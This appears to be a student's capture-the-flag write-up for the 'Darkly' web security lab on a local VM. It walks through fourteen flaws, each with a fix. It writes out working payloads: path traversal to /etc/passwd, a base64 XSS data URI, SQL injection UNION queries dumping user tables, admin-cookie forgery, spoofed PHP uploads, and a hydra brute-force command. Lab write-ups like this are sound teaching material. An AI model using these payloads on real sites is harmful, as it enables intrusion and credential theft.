 #+TITLE: Write Up for Darkly project
#+AUTHOR: paure
#+OPTIONS: _:nil

* Prerequesite

Lauch the VM and access to the IP indicated.

* hidden_attribute
** Vulnerability
On the page http://192.168.56.105/index.php?page=signin there is link to recover password and on this page there is an hidden form.
1. insepect the page
2. fill the form
3. click on the submit button
** Protection
 Don't use hidden tag in html for sensitive information !

* csrf_cookie
** Vulnerability
The website gives us a cookie in order to check if we are admin or not. This cookie is a simple md5 hash which means 'false'. We can replace it by the corresping hash for 'true'.
1. ~hashid 68934a3e9455fa72420237eb05902327~
2. ~echo -n "true" | md5~
3. replace cookie with the result of the echo command.
4. reload the page
** Protection
A boolean is not enough, there must be a complex system of identification by user in the backend. (and don't use explicit sentences as 'I_am_admin'). It's also important to use the 'SameSite' attribute for cookies.
* informations_leaks
** Vulnerability
By doing some fuzzing on the website, we can found the file *robots.txt* which reveals informations of the content of the site.
On the page http://192.168.56.105/whatever/ there is a *htpasswd* file.
1. ~ffuf -w ./informations_leaks/ressources/common.txt:FUZZ -u "http://192.168.56.105/FUZZ"~
2. go to http://192.168.56.105/robots.txt
3. go to http://192.168.56.105/whatever/
4. ~wget http://192.168.56.105/whatever/htpasswd~
5. use https://crackstation.net/ to decode the hash
6. go to http://192.168.56.105/admin/
7. log-in with root:dragon
** Protection
Don't store sensitive informations in the *robots.txt* file, assume that attackers will pay close attention to any locations identified in the file.
* insecure_path
** Vulnerability
 On the page http://192.168.56.105/.hidden/ found by the *robots.txt* there is some kind of labyrinth to protect the flag. But it stills vulnerable to crawling.
 1. cd ./insecure_path/ressources
 2. ~bash crawl.sh "http://192.168.56.105/.hidden/" url_1 url_2 url_3~
 3. ~grep -v "gauche\|droite\|dessus\|dessous\|aussi\|bon\|non" result.txt~
** Protection
Don't hide important informations like that. Use authentication or *htaccess* file to protect the folder.
* redirection
** Vulnerability
In the footer of the main page, the website has redirection of social media. We can change these redirection with anything we want and potentially to malicious pages.
1. change "site=facebook" by "site=google"
2. click on the link
** Protection
It's possible to check the redirection with some arrays, so it would not be possible to redirect on anything other that we predefined.
* local_file_inclusion
Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server. On any page on the website, there is an attribute *page* in the url.
** Vulnerability
1. change http://192.168.56.105/index.php?page=sigin by
http://192.168.56.105/index.php?page=../../../../../../../etc/passwd
** Protection
Use an array of valid url, the attacker will have access only to these arrays.
* idor_src
** Vulnerability
Indirect object references is a vulnerability that arises when an application uses user-supplied input to access objects directly. An image is clickable on the main page and redirect us to http://192.168.56.105/?page=media&src=nsa . There is an object tag in the page that displays the content of the src in url. We can replace the src to make an XSS request.
1. replace *src=nsa* by *src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=*
** Protection
Predefined the valid sources and don't use the input of the user.
* form_check
** Vulnerability
On the page http://192.168.56.105/index.php?page=survey there is a survey where we vote for people. By doing a vote, a POST request is made, we can change the values of this request.
1. press F12
2. vote for a person
3. go to the 'network' tab
4. edit the request and change the value by 42
5. send and look at the response
** Proection
Sanitize the input of the form in the backend and not only in the frontend !
* cors
** Vulnerability
Click on the copyright in the bottom of the page. There is some comments in the source page which give us an hint. *"You must comming from : "https://www.nsa.gov/" to go to the next step* and *the browser ft_borntosec will help you*.
We need to change the referrer and the user agent in request.
1. press F12
2. reload the page
3. edit the request, change the referrer by *"https://www.nsa.gov/"* and the user-agent by *"ft_borntosec"*
4. send and look at the response
** Protection
The referrer and the user-agent are not enough to check the validity of a request. The Cross Origin Request must be enabled and configured.
* insecure_upload
** Vulnerability
It's possible to upload an image on the page http://192.168.56.105/?page=upload . The website only check the header of the request for the uploaded file.
1. press F12
2. upload a .php file
3. change the request, *Content-Type: text/php* by *Content-Type: images/jpeg*
4. send and look at the response
** Protection
Looking at the header is not enough.The application should perform filtering and content checking on any files which are uploaded to the server. Files should be thoroughly scanned and validated before being made available to other users. If in doubt, the file should be discarded.
* xss_stored
** Vulnerability
On the page http://192.168.56.103/index.php?page=feedback  it's possible for the users to leave feedbacks. Any comments leads to XSS and gives the flag. This is exagerated but real XSS attacks can lead to serious threats on websites, it can steal cookies, make request for any users who visite the page ...
** Protection
SANTIZE THE INPUT ! Use appropriate response headers. To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the Content-Type and X-Content-Type-Options headers to ensure that browsers interpret the responses in the way you intend.
* sql_injection_member
** Vulnerability
On the page http://192.168.56.105/index.php?page=member we can search users by their 'id'. If we enter a letter for example, an error is displayed which reveals that it reads sql commands.

1. 1 OR 1
2. 5 UNION SELECT database(),2
3. 5 UNION SELECT table_schema,table_name FROM information_schema.columns
4. 5 UNION SELECT table_name,column_name FROM information_schema.columns
5. 5 UNION SELECT user_id,planet FROM users
6. 5 UNION SELECT user_id,countersign FROM users
7. 5 UNION SELECT user_id,commentaire FROM users
8. ~echo -n 'fortytwo' | sha2~
** Protection
Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.
* sql_injection_image
** Vulnerability
Same as *sql_injection_member* but on the page http://192.168.56.105/?page=searchimg.

1. 5 UNION SELECT table_schema,table_name FROM information_schema.columns
2. 5 UNION SELECT table_name,column_name FROM information_schema.columns
3. 5 UNION SELECT title,comment FROM list_images
4. ~echo -n 'albatroz' | sha2~
** Protection
Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.
* bruteforce_login_page
** Vulnerability
There is a login page, http://192.168.56.103/index.php?page=signin. We does not know any creds so we can bruteforce it.

1. ~hydra -I -F -l admin -P ./bruteforce_login_page/ressources/top-passwords-shortlist.txt '192.168.56.105' http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'~ We try each password in the file.txt for the username admin until the response does not containt 'WrongAnswer.gif'.
2. login as *admin:shadow*
** Protection
Use strict policy for passwords ! Also, block the ip address who make too many requests.
